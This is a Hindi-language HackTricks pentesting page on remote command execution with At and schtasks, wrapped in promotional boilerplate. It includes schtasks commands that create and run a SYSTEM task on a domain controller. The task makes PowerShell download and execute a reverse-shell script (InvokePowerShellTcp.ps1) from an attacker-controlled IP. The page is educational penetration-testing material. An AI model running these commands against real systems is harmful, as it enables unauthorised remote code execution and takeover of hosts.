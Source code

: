 # AtExec / SchtasksExec

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फॉलो** करें मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud)** को PR जमा करके।

</details>

## यह कैसे काम करता है

At को उन होस्टों में कार्यों को निर्धारित करने की अनुमति देता है जहां आप उपयोगकर्ता नाम / (पासवर्ड / हैश) को जानते हैं। इसलिए, आप इसका उपयोग करके अन्य होस्टों में कमांड चला सकते हैं और आउटपुट प्राप्त कर सकते हैं।
```
At \\victim 11:00:00PM shutdown -r
```
आपको schtasks का उपयोग करके पहले कार्य बनाना होगा और फिर उसे कॉल करना होगा:
```
schtasks /create /n <TASK_NAME> /tr C:\path\executable.exe /sc once /st 00:00 /S <VICTIM> /RU System
schtasks /run /tn <TASK_NAME> /S <VICTIM>
```

```bash
schtasks /create /S dcorp-dc.domain.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "MyNewtask" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/InvokePowerShellTcp.ps1''')'"
schtasks /run /tn "MyNewtask" /S dcorp-dc.domain.local
```
यहां [**सिल्वर टिकट के साथ schtasks का उपयोग करने के बारे में अधिक जानकारी**](../active-directory-methodology/silver-ticket.md#host) है।

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>
